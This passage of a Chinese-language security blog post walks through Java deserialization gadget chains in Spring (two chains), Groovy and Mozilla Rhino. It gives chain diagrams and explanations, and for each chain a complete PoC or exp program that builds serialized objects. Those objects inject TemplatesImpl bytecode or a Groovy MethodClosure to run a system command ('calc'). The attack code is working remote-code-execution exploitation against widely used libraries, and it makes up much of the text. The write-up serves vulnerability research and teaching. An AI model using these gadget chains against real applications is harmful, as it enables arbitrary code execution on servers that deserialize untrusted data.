> 在`readObject()`方法中，通过反射从`this.provider.getType().getClass()`获取类，并且寻得对应的方法，随后通过`ReflectionUtils.invokeMethod()`调用这个方法，这里的`methodName`是可控的，如果通过`getType()`获取到的类也能够控制，那么就能够触发我们的恶意方法，比如说`methodName=newTransformer`，`getType()`处理成`TemplatesImpl`。

再看一下`AutowireUtils`类的子类`ObjectFactoryDelegatingInvocationHandler`，里面的`invoke`方法。

```plain
private static class ObjectFactoryDelegatingInvocationHandler implements InvocationHandler, Serializable {

        private final ObjectFactory<?> objectFactory;

        public ObjectFactoryDelegatingInvocationHandler(ObjectFactory<?> objectFactory) {
            this.objectFactory = objectFactory;
        }

        @Override
        public Object invoke(Object proxy, Method method, Object[] args) throws Throwable {
            String methodName = method.getName();
            if (methodName.equals("equals")) {
                return (proxy == args[0]);
            }
            else if (methodName.equals("hashCode")) {
                return System.identityHashCode(proxy);
            }
            else if (methodName.equals("toString")) {
                return this.objectFactory.toString();
            }
            try {
                return method.invoke(this.objectFactory.getObject(), args);
            }
            catch (InvocationTargetException ex) {
                throw ex.getTargetException();
            }
        }
    }
```

> 函数接收一个`Method`方法，如果`method`不为`equals() hashCode() toString()`，从`objectFactory`中调用`getObject()`获取类，最终通过`method.invoke`调用类中的`method`方法。

看完上面的三个方法，要解决的问题就是怎么控制`getType()`返回的类？

-   `AnnotationInvocationHandler`中，我们可以传入`Key`是一个方法名、控制方法返回的值，只需要通过动态代理这个类，调用这个类中的方法时候就会触发`invoke()`函数
-   首先，我们可以通过`AnnotationInvocationHandler`代理一个`ObjectFactory`使它的`getObject`返回`TemplatesImpl`类
-   然后，实例化一个`ObjectFactoryDelegatingInvocationHandler`类，再将代理后的`ObjectFactory`赋值给`ObjectFactoryDelegatingInvocationHandler`进行初始化，就会触发`ObjectFactoryDelegatingInvocationHandler#invoke()`方法，从而触发`getObject`方法，因为`ObjectFactoryDelegatingInvocationHandler`本身也是一个代理类，继承了`InvocationHandler`接口
-   再通过`AnnotationInvocationHandler`代理`TypeProvider`类，使得`getType()`返回的是`Templates`类型的类，只需要增加`TypeProvider`的返回值有`Templates`类
-   使用`ObjectFactoryDelegatingInvocationHandler`代理返回接口是`Type+Templates`的类，从而使`getType()`的返回值中有`ObjectFactoryDelegatingInvocationHandler`，这里就会再在调用`invokeMethod()`的时候，触发`ObjectFactoryDelegatingInvocationHandler#invoke()`方法完成调用

整条链子如下：

```plain
SerializableTypeWrapper$MethodInvokeTypeProvider.readObject()
    SerializableTypeWrapper.TypeProvider(Proxy).getType()
        AnnotationInvocationHandler.invoke()
            ReflectionUtils.invokeMethod()
                Templates(Proxy).newTransformer()
                    AutowireUtils$ObjectFactoryDelegatingInvocationHandler.invoke()
                        ObjectFactory(Proxy).getObject()
                            TemplatesImpl.newTransformer()
```

poc 如下：

```plain
package com.example.spring;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.xml.internal.bind.v2.runtime.reflect.opt.Const;
import javassist.CannotCompileException;
import javassist.ClassPool;
import javassist.CtClass;
import javassist.NotFoundException;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.springframework.beans.factory.ObjectFactory;

import javax.xml.transform.Templates;
import java.io.*;
import java.lang.annotation.Target;
import java.lang.reflect.*;
import java.util.Base64;
import java.util.HashMap;
import java.util.Map;

public class spring1 {
    public static void main(String[] args) throws Exception {
        TemplatesImpl templatesImpl = new TemplatesImpl();
        setFieldValue(templatesImpl, "_bytecodes", new byte[][]{getTemplates()});
        setFieldValue(templatesImpl, "_name", "aiwin");
        setFieldValue(templatesImpl, "_tfactory", null);
        //AnnotationInvocationHandler 代理 objectFactory 类，让 objectFactory.getObject() 返回 TemplatesImpl 恶意类
        Class<?> annotationInvocationHandler=Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor<?> constructor=annotationInvocationHandler.getDeclaredConstructor(Class.class,Map.class);
        constructor.setAccessible(true);
        HashMap hashMap=new HashMap();
        hashMap.put("getObject",templatesImpl);
        InvocationHandler invocationHandler= (InvocationHandler) constructor.newInstance(Target.class,hashMap);
        ObjectFactory<?> objectFactory= (ObjectFactory<?>) Proxy.newProxyInstance(ClassLoader.getSystemClassLoader(),new Class[]{ObjectFactory.class},invocationHandler);

        //将ObjectFactory赋值给ObjectFactoryDelegatingInvocationHandler
        Class<?>  ObjectFactoryDelegatingInvocationHandler=Class.forName("org.springframework.beans.factory.support.AutowireUtils$ObjectFactoryDelegatingInvocationHandler");
        Constructor<?> constructor1=ObjectFactoryDelegatingInvocationHandler.getDeclaredConstructor(ObjectFactory.class);
        constructor1.setAccessible(true);
        InvocationHandler objInvocationHandler = (InvocationHandler) constructor1.newInstance(objectFactory);

        //这里是连接桥梁，承上启下，修改成Type和Templates两个接口,findMethod()时匹配返回newTransform(),
        // 并由ObjectFactoryDelegatingInvocationHandler代理,
        // invokeMethod()触发ObjectFactoryDelegatingInvocationHandler#invoke()
        Type TypeTemplates= (Type) Proxy.newProxyInstance(ClassLoader.getSystemClassLoader(),new Class[]{Type.class,Templates.class},objInvocationHandler);
        HashMap hashMap1=new HashMap();
        hashMap1.put("getType",TypeTemplates);

        //AnnotationInvocationHandler代理TypeProvider,让getType()返回TypeTemplates
        InvocationHandler invocationHandler1= (InvocationHandler) constructor.newInstance(Target.class,hashMap1);
        Class<?> typeProviderClass = Class.forName("org.springframework.core.SerializableTypeWrapper$TypeProvider");
        Object TypeProvider=Proxy.newProxyInstance(ClassLoader.getSystemClassLoader(),new Class[]{typeProviderClass},invocationHandler1);

        //将TypeProvider赋值给MethodInvokeTypeProvider并修改methodName,漏洞入口点
        Class<?>  MethodInvokeTypeProvider=Class.forName("org.springframework.core.SerializableTypeWrapper$MethodInvokeTypeProvider");
        Constructor<?> constructor2=MethodInvokeTypeProvider.getDeclaredConstructors()[0];
        constructor2.setAccessible(true);
        Object result=constructor2.newInstance(TypeProvider,Object.class.getMethod("toString"),1);
        setFieldValue(result,"methodName","newTransformer");
        String s=serialize(result);
        unserialize(s);
    }
    public static String serialize(Object object) throws IOException {
        ByteArrayOutputStream byteArrayOutputStream=new ByteArrayOutputStream();
        ObjectOutputStream outputStream=new ObjectOutputStream(byteArrayOutputStream);
        outputStream.writeObject(object);
        outputStream.close();
        return Base64.getEncoder().encodeToString(byteArrayOutputStream.toByteArray());
    }

    public static  void unserialize(String s) throws IOException, ClassNotFoundException {
        byte[] result=Base64.getDecoder().decode(s);
        ByteArrayInputStream byteArrayInputStream=new ByteArrayInputStream(result);
        ObjectInputStream objectInputStream=new ObjectInputStream(byteArrayInputStream);
        objectInputStream.readObject();
    }

    private static void setFieldValue(Object obj, String field, Object arg) throws Exception{
        Field f = obj.getClass().getDeclaredField(field);
        f.setAccessible(true);
        f.set(obj, arg);
    }
    public static byte[] getTemplates() throws CannotCompileException, NotFoundException, IOException {
        ClassPool classPool=ClassPool.getDefault();
        CtClass ctClass=classPool.makeClass("Test");
        ctClass.setSuperclass(classPool.get("com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet"));
        String block = "Runtime.getRuntime().exec(\"calc\");";
        ctClass.makeClassInitializer().insertBefore(block);
        return ctClass.toBytecode();
    }

}
```

进行调试以便更加清晰整条链子的走向：

首先来到`MethodInvokeTypeProvider#readObject()`入口，此时会调用`getType()`方法，因为`provider`是通过`AnnotationInvovationHandler`代理，因此会直接返回`getType`的值，也就是`ObjectFactoryDelegatingInvocationHandler`代理类`proxy1`。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240122223031-cbfac6e6-b932-1.png)

随后来到`findMethod` 方法中，因为`proxy1`是有`Type Templates`两个接口，因此会找到两个接口中的所有方法，遍历匹配`newTransform`返回`newTransform()`方法

[](https://xzfile.aliyuncs.com/media/upload/picture/20240122223044-d3d61fc8-b932-1.png)

随后来到`ReflectionUtils.invokeMethod()`方法中，调用`` `ObjectFactoryDelegatingInvocationHandler ``代理后的类的`newTransform`方法，就会触发`ObjectFactoryDelegatingInvocationHandler#invoke()`方法。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240122223056-dabee662-b932-1.png)

到`ObjectFactoryDelegatingInvocationHandler#invoke()`中，因为此时`objectFactory`又是被`AnnotationInvovationHandler`代理，会触发`AnnotationInvovationHandler#invoke()`取出`getObject`的值`Templates`从而触发`TemplateImpl#newTransform()`链子

[](https://xzfile.aliyuncs.com/media/upload/picture/20240122223109-e24e6f7e-b932-1.png)

# Spring2 反序列化

`spring2`和`spring1`的链子大同小异，只是换一个代理地方，前半部分换成了`JdkDynamicAopProxy#invoke()`方法，`JdkDynamicAopProxy`也继承于`InvocationHandler`接口。

```plain
private final AdvisedSupport advised;
    @Override
    public Object invoke(Object proxy, Method method, Object[] args) throws Throwable {
        MethodInvocation invocation;
        Object oldProxy = null;
        boolean setProxyContext = false;
        TargetSource targetSource = this.advised.targetSource; //关键
        Class<?> targetClass = null;
        Object target = null;

        try {
            if (!this.equalsDefined && AopUtils.isEqualsMethod(method)) {
                return equals(args[0]);
            }
            if (!this.hashCodeDefined && AopUtils.isHashCodeMethod(method)) {
                return hashCode();
            }
            if (!this.advised.opaque && method.getDeclaringClass().isInterface() &&
                    method.getDeclaringClass().isAssignableFrom(Advised.class)) {
                return AopUtils.invokeJoinpointUsingReflection(this.advised, method, args);
            }

            Object retVal;

            if (this.advised.exposeProxy) {
                oldProxy = AopContext.setCurrentProxy(proxy);
                setProxyContext = true;
            }
            target = targetSource.getTarget(); //关键
            if (target != null) {
                targetClass = target.getClass();
            }
            List<Object> chain = this.advised.getInterceptorsAndDynamicInterceptionAdvice(method, targetClass);
            if (chain.isEmpty()) {
                retVal = AopUtils.invokeJoinpointUsingReflection(target, method, args); //关键
            }
            else {
                invocation = new ReflectiveMethodInvocation(proxy, target, method, args, targetClass, chain);
                retVal = invocation.proceed();
            }
            Class<?> returnType = method.getReturnType();
            if (retVal != null && retVal == target && returnType.isInstance(proxy) &&
                    !RawTargetAccess.class.isAssignableFrom(method.getDeclaringClass())) {
                retVal = proxy;
            }
            else if (retVal == null && returnType != Void.TYPE && returnType.isPrimitive()) {
                throw new AopInvocationException(
                        "Null return value from advice does not match primitive return type for: " + method);
            }
            return retVal;
        }
        finally {
            if (target != null && !targetSource.isStatic()) {
                targetSource.releaseTarget(target);
            }
            if (setProxyContext) {
                AopContext.setCurrentProxy(oldProxy);
            }
        }
    }
```

> 可以看到该方法从`AdvisedSupport`中获取 一个`TargetSource`，随后判断`Method`是否是`HashCode equals`以及方法是否是`Advised`类声明，都不是则会从`TargetSource`中获取`target`赋值，然后调用`getInterceptorsAndDynamicInterceptionAdvice()`传入 获取到`target`的类，这个方法其实是从`methodCache`中获取方法，如果获取不到，则调用`invokeJoinpointUsingReflection()`方法

看`invokeJoinpointUsingReflection()`方法，接收`target`和`method`，直接能调用`method.invoke()`，与`spring1`链的`getObject()`是相似的。

```plain
public static Object invokeJoinpointUsingReflection(Object target, Method method, Object[] args)
            throws Throwable {
        try {
            ReflectionUtils.makeAccessible(method);
            return method.invoke(target, args);
        }
        catch (InvocationTargetException ex) {
            throw ex.getTargetException();
        }
        catch (IllegalArgumentException ex) {
            throw new AopInvocationException("AOP configuration seems to be invalid: tried calling method [" +
                    method + "] on target [" + target + "]", ex);
        }
        catch (IllegalAccessException ex) {
            throw new AopInvocationException("Could not access method [" + method + "]", ex);
        }
    }
```

所以这里也能跟 spring1 的后半部分连接起来：

-   实例化一个`AdvisedSupport`类，传入`TemplatesImpl`恶意类，使得`getTarget()`返回`TemplatesImpl`，然后用反射实例化传入到`JdkDynamicAopProxy`中
-   再用`JdkDynamicAopProxy`代理`Type Templates`接口的类，使得`this.provider.getType().getClass()`能找到`newTransform`方法
-   当触发`invokeMethod`方法的时候，会触发`JdkDynamicAopProxy#invoke()`，使得`TemplatesImpl`的链子被触发

Gadgets 如下：

```plain
SerializableTypeWrapper$MethodInvokeTypeProvider.readObject()
    SerializableTypeWrapper.TypeProvider(Proxy).getType()
        AnnotationInvocationHandler.invoke()
            ReflectionUtils.invokeMethod()
                Templates(Proxy).newTransformer()
                    JdkDynamicAopProxy.invoke()
                        AopUtils.invokeJoinpointUsingReflection()
                            TemplatesImpl.newTransformer()
```

exp 如下：

```plain
package com.example.spring;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import javassist.CannotCompileException;
import javassist.ClassPool;
import javassist.CtClass;
import javassist.NotFoundException;
import org.springframework.aop.framework.AdvisedSupport;
import javax.xml.transform.Templates;
import java.io.*;
import java.lang.annotation.Target;
import java.lang.reflect.*;
import java.util.Base64;
import java.util.HashMap;
import java.util.Map;

public class spring2 {
    public static void main(String[] args) throws Exception {
        // 生成包含恶意类字节码的 TemplatesImpl 类
        TemplatesImpl templatesImpl = new TemplatesImpl();
        setFieldValue(templatesImpl, "_bytecodes", new byte[][]{getTemplates()});
        setFieldValue(templatesImpl, "_name", "aiwin");
        setFieldValue(templatesImpl, "_tfactory", null);
        // 实例化 AdvisedSupport
        //JdkDynamicAopProxy 代理 AdvisedSupport，进入 JdkDynamicAopProxy#invoke() 触发 method.invoke() 触发 TemplatesImpl
        AdvisedSupport advisedSupport=new AdvisedSupport();
        advisedSupport.setTarget(templatesImpl);
        Class<?> JdkDynamicAopProxy=Class.forName("org.springframework.aop.framework.JdkDynamicAopProxy");
        Constructor<?> AopConstruct=JdkDynamicAopProxy.getDeclaredConstructor(AdvisedSupport.class);
        AopConstruct.setAccessible(true);
        InvocationHandler invocationHandler= (InvocationHandler) AopConstruct.newInstance(advisedSupport);

        // 这里是连接桥梁，承上启下，修改成Type和Templates两个接口,findMethod()时匹配返回newTransform(),
        //并由JdkDynamicAopProxy代理,
        //invokeMethod()触发JdkDynamicAopProxy#invoke()从而连接起上面的内容
        Type TypeTemplates= (Type) Proxy.newProxyInstance(ClassLoader.getSystemClassLoader(), new Class[]{Type.class,Templates.class},invocationHandler);

        Class<?> annotationInvocationHandler=Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor<?> constructor=annotationInvocationHandler.getDeclaredConstructor(Class.class, Map.class);
        constructor.setAccessible(true);

        //AnnotationInvocationHandler代理TypeProvider,让getType()返回TypeTemplates
        HashMap hashMap=new HashMap<>();
        hashMap.put("getType",TypeTemplates);
        InvocationHandler invocationHandler1= (InvocationHandler) constructor.newInstance(Target.class,hashMap);
        Class<?> typeProviderClass = Class.forName("org.springframework.core.SerializableTypeWrapper$TypeProvider");
        Object TypeProvider=Proxy.newProxyInstance(ClassLoader.getSystemClassLoader(),new Class[]{typeProviderClass}, invocationHandler1);
        Class<?> MethodInvokeTypeProvider=Class.forName("org.springframework.core.SerializableTypeWrapper$MethodInvokeTypeProvider");
        Constructor<?> constructor2=MethodInvokeTypeProvider.getDeclaredConstructors()[0];
        constructor2.setAccessible(true);
        Object object=constructor2.newInstance(TypeProvider,Object.class.getMethod("toString"),1);
        setFieldValue(object,"methodName","newTransformer");
        unserialize(serialize(object));

    }
}
```

简单调试如下，与`spring1`大同小异：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240122223127-ed0d944e-b932-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240122223135-f21af08a-b932-1.png)

# Groovy 反序列化

`Groovy` 是一种基于 Java 平台的动态语言，它是由一些 Java 开发者推出的。Groovy 可以看作是在 Java 语言的基础上增加了许多功能和改进，它可以与 Java 代码很好地整合在一起使用，可以使用 Java 类库，也可以使用其他 JVM 语言的类库。

`Groovy` 具有动态类型、闭包、元编程、字符串模板、简化的语法等特性，也支持运行时和编译时的元编程，这些特性使得 Groovy 更灵活、更简洁、更易于使用。Groovy 的应用场景非常广泛，包括但不限于 Web 开发、测试自动化、脚本编写、桌面应用程序开发等。

`Groovy`中也有一条与动态代理有关的链子，相对来说并没有`spring`的动态代理那么绕，下面是简单分析：

首先，`Groovy`为字符串提供了命令执行的特性，提供了一个`execute()`函数，可以直接对字符串进行命令执行，类似于`"whoami".execute()`

在`MethodClosure`类中，存在一个`doCall`方法，可以触发`InvokerHelper.invokeMethod()`触发命令执行，它的构造函数接收一个`Object`对象和一个`Method`的名字。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240122223151-fb46b306-b932-1.png)

`ConvertedClosure`类，存在`invokeCustom`方法能够触发`call`方法，只需要传入的`method`的名称和`methodName`相等即可，它继承于`ConversionHandler`，而`ConversionHandler`继承于`InvocationHandler`，本质上来将，它也是一个代理类。

```plain
public class ConvertedClosure extends ConversionHandler implements Serializable {
    private String methodName;
    private static final long serialVersionUID = 1162833713450835227L;

    public ConvertedClosure(Closure closure, String method) {
        super(closure);
        this.methodName = method;
    }

    public ConvertedClosure(Closure closure) {
        this(closure, (String)null);
    }

    public Object invokeCustom(Object proxy, Method method, Object[] args) throws Throwable {
        return this.methodName != null && !this.methodName.equals(method.getName()) ? null : ((Closure)this.getDelegate()).call(args);
    }
}
```

再看这里的`call`方法，它会直接触发`doCall`方法，也就是说`MethodClosure#doCall()`连接起来，造成命令执行。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240122223200-011dd732-b933-1.png)

当我们使用`ConvertedClosure`来代理一个类的时候，本质上当调用类中方法，会触发`ConversionHandler`中的`invoke()`方法，只要`method` 不是`Object.class`中的方法，就会调用`ConvertedClosure#invokeCustom()`，此时整条链子就明显了，可以让通过`AnnotationInvocationHandler`反序列化调用`memberValues`存放`entrySet`对象，从而`ConvertedClosure#invokeCustom()`，也就是`MethodClosure`的代理。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240122223213-08d62268-b933-1.png)

Gadgets 如下：

```plain
AnnotationInvocationHandler.readObject()
    Map.entrySet() (Proxy)
        ConversionHandler.invoke()
            ConvertedClosure.invokeCustom()
                MethodClosure.call()
                    ProcessGroovyMethods.execute()
```

exp 如下：

```plain
package com.example.groovy;

import org.codehaus.groovy.runtime.ConvertedClosure;
import org.codehaus.groovy.runtime.MethodClosure;

import java.io.*;
import java.lang.annotation.Target;
import java.lang.reflect.Constructor;
import java.lang.reflect.InvocationTargetException;
import java.lang.reflect.Proxy;
import java.util.Base64;
import java.util.Map;

public class Groovy1 {
    public static void main(String[] args) throws ClassNotFoundException, NoSuchMethodException, InvocationTargetException, InstantiationException, IllegalAccessException, IOException {

        MethodClosure methodClosure=new MethodClosure("calc","execute");
        ConvertedClosure closure=new ConvertedClosure(methodClosure,"entrySet");
        Class<?>  AnnotationInvocationHandler = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor<?> constructor = AnnotationInvocationHandler.getDeclaredConstructor(Class.class,Map.class);
        constructor.setAccessible(true);
        Map handler= (Map) Proxy.newProxyInstance(ClassLoader.getSystemClassLoader(),new Class[]{Map.class},closure);
        Object object=constructor.newInstance(Target.class,handler);
        unserialize(serialize(object));

    }

}
```

# Rhino 反序列化

Mozilla Rhino 是一种基于 Java 的可扩展、轻量级的 JavaScript 引擎。它可以在 Java 虚拟机（JVM）上运行 JavaScript 代码，并且可以作为独立的命令行工具和嵌入式组件来使用。Rhino 可以通过 Java API 来访问和操作 Java 对象，也可以通过 JavaScript 对象访问和操作 Java 对象。Rhino 还支持 ECMAScript 6 标准和部分 ECMAScript 7 标准的功能。因此，它可以用于许多领域，如 Web 开发、桌面应用程序、服务器端脚本等。

依赖版本：

```plain
<dependency>
            <groupId>rhino</groupId>
            <artifactId>js</artifactId>
            <version>1.7R2</version>
        </dependency>
```

链子流程：

`NativeError`类中，有`toString()`方法能触发`js_toString()`进而触发`getString()`，此时传入的参数是`NativeError`类和`name`字符串

[](https://xzfile.aliyuncs.com/media/upload/picture/20240122223225-0fd958c8-b933-1.png)

跟进`ScriptableObject#getProperty`中，将`obj`赋值给了`start`后，调用`NativeError#get()`方法，传入`name`字符串和`NativeError`对象。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240122223236-1633785c-b933-1.png)

`NativeError`类没有`get()`，它继承于`IdScriptableObject`类，所以会调用`IdScriptableObject#get()`，这个`get`最终又会调用父类的`get()`，即`ScriptableObject#get()`。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240122223248-1d432322-b933-1.png)

`ScriptableObject#get()`会触发`ScriptableObject#getImpl()`，这个方法先调用`getSlot()`获取一个`Slot`对象，如果`Slot`为空或者不属于`GetterSlot`则直接返回，否则获取`Slot`对象中的`getter`实例。如果获取到的是`MemberBox`类，则会进入条件判断中，最终进行反射调用。

-   如果`MemberBox`的`delegateTo`是空，则反射调用的对象是`start`即`NativeError`，参数是空
-   如果不为空，则反射调用的是`delegateTo`对象，参数是`start`对象

[](https://xzfile.aliyuncs.com/media/upload/picture/20240122223306-280b663e-b933-1.png)

如果这里的`MemberBox#delegateTo`可控，那么就可以被我们利用，但是`delegateTo`是`transient`修饰，是一个抽象属性，实例化`MemberBox`的时候默认为空，所以`nativeGetter#invoke`默认反射调用`nativeError`对象，因此无法被控制，作者这里走的其实是`else`里面的内容，调用`Function`对象中的`call()`

[](https://xzfile.aliyuncs.com/media/upload/picture/20240122223316-2e2b4eda-b933-1.png)

到这里作者找到的是`NativeJavaMethod`类，继承于`BaseFunction`，而`BaseFunction`继承了`Function`类，`NativeJavaMethod#call()`中先调用`findFunction()`找到返回的索引，这里存储的其实是一个`MemberBox`数组，找到赋值给一个`MemberBox`实例

[](https://xzfile.aliyuncs.com/media/upload/picture/20240122223327-349da600-b933-1.png)

方法往下走也会进行反射调用找到的`MemberBox`，如果可以控制`javaObject`的值，就可以触发`Rce`，因为`MemerBox`类中的`invoke`方法是直接触发了`method.invoke()`。在`else`方法里面，如果传入的 `Scriptable`对象也就是传入的`NativeError`，进入一个无限的`for`循环，因为`NativeError`不属于`Wrapper`类，所以找不到`javaObject`，最终会调用`getPrototype()`重新判断，返回`prototypeObject`对象。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240122223346-402bb750-b933-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240122223356-45db1d30-b933-1.png)

作者最终找到的是`NativeJavaObject`类，继承了`Scriptable, Wrapper, Serializable`三个类，满足了进入`unwrap()`的条件，并且这个`unwrap()`方法直接返回`javaObject`，`javaObject`也由`transient`修饰，但是在`NativeJavaObject`类中自定义了`read/writeObject()`能够保存`javaObject`

[](https://xzfile.aliyuncs.com/media/upload/picture/20240122223404-4a9d7f34-b933-1.png)

至此整条链就形成了，通过`NativeError#toString()`触发`NativeJavaMethod#call()`，通过`NativeJavaObject#unwrap()`返回`TemplatesImpl`对象控制`javaObject`最终利用`MemberBox#invoke()`反射执行恶意类。

Gadgets 如下：

```plain
BadAttributeValueExpException.readObject()
    NativeError.toString()
        ScriptableObject.getProperty()
            ScriptableObject.getImpl()
                NativeJavaMethod.call()
                    NativeJavaObject.unwrap()
                        MemberBox.invoke()
                            TemplatesImpl.newTransformer()
```

poc 如下：

```plain
package com.example.rhino;

import com.caucho.quercus.annotation.Construct;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import javassist.CannotCompileException;
import javassist.ClassPool;
import javassist.CtClass;
import javassist.NotFoundException;
import org.mozilla.javascript.*;

import javax.management.BadAttributeValueExpException;
import java.io.*;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.Method;
import java.util.Base64;

public class Rhino1 {
    public static void main(String[] args) throws Exception {
        TemplatesImpl templates = new TemplatesImpl();
        setFieldValue(templates, "_bytecodes", new byte[][]{getTemplates()});
        setFieldValue(templates, "_name", "aiwin");
        setFieldValue(templates, "_tfactory", null);
        Class<?> NativeErrorClass=Class.forName("org.mozilla.javascript.NativeError");
        Constructor<?> constructor=NativeErrorClass.getDeclaredConstructor();
        constructor.setAccessible(true);
        Scriptable NativeError= (Scriptable) constructor.newInstance();


        //初始化javaObject,使unwrap()返回TemplatesImpl对象,同时完整初始化为了满足initMembers()不报错
        Context context          = Context.enter();
        NativeObject scriptableObject = (NativeObject) context.initStandardObjects(); //设置一个JavaScript环境
        NativeJavaObject nativeJavaObject=new NativeJavaObject(scriptableObject,templates,TemplatesImpl.class);

        //使getPrototype()返回的是NativeJavaObject对象
        Field prototypeObject= ScriptableObject.class.getDeclaredField("prototypeObject");
        prototypeObject.setAccessible(true);
        prototypeObject.set(NativeError,nativeJavaObject);

        //赋值NativeJavaMethod中的methods数组,使Memberbox中的method是newTransformer()
        Method templatesMethod=TemplatesImpl.class.getDeclaredMethod("newTransformer");
        templatesMethod.setAccessible(true);
        NativeJavaMethod nativeJavaMethod=new NativeJavaMethod(templatesMethod,"test");


        //实例化一个Slot对象,并放入NativeError中，比较难理解
        Method getSlot = ScriptableObject.class.getDeclaredMethod("getSlot", String.class, int.class, int.class);
        getSlot.setAccessible(true);
        Object slotObject = getSlot.invoke(NativeError, "name", 0, 4);

        //使getter获取到的getterObj是nativeJavaMethod,触发Function中的call()
        Class<?> GetterObj=Class.forName("org.mozilla.javascript.ScriptableObject$GetterSlot");
        Field getter=GetterObj.getDeclaredField("getter");
        getter.setAccessible(true);
        getter.set(slotObject,nativeJavaMethod);


        BadAttributeValueExpException badAttributeValueExpException = new BadAttributeValueExpException("test");
        Field  valField  = badAttributeValueExpException.getClass().getDeclaredField("val");
        valField.setAccessible(true);
        valField.set(badAttributeValueExpException, NativeError);
        String result=serialize(badAttributeValueExpException);
        unserialize(result);


    }
    public static String serialize(Object object) throws IOException {
        ByteArrayOutputStream byteArrayOutputStream=new ByteArrayOutputStream();
        ObjectOutputStream outputStream=new ObjectOutputStream(byteArrayOutputStream);
        outputStream.writeObject(object);
        outputStream.close();
        return Base64.getEncoder().encodeToString(byteArrayOutputStream.toByteArray());
    }
    public static  void unserialize(String s) throws IOException, ClassNotFoundException {
        byte[] result= Base64.getDecoder().decode(s);
        ByteArrayInputStream byteArrayInputStream=new ByteArrayInputStream(result);
        ObjectInputStream objectInputStream=new ObjectInputStream(byteArrayInputStream);
        objectInputStream.readObject();
    }

    private static void setFieldValue(Object obj, String field, Object arg) throws Exception{
        Field f = obj.getClass().getDeclaredField(field);
        f.setAccessible(true);
        f.set(obj, arg);
    }
    public static byte[] getTemplates() throws CannotCompileException, NotFoundException, IOException {
        ClassPool classPool=ClassPool.getDefault();
        CtClass ctClass=classPool.makeClass("Test");
        ctClass.setSuperclass(classPool.get("com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet"));
        String block = "Runtime.getRuntime().exec(\"calc\");";
        ctClass.makeClassInitializer().insertBefore(block);
        return ctClass.toBytecode();
    }

}
```
